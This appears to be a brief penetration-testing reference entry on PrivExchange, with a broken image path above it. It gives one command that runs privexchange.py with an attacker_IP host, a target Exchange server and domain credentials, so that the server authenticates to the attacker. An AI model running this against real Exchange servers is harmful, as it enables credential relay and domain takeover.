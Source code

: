 # PrivExchange

Coerce Exchange server authentication via PushSubscription (now patched):

    python3.exe privexchange.py -ah attacker_IP <Exchange_server> -u user1 -p password -d domain.local
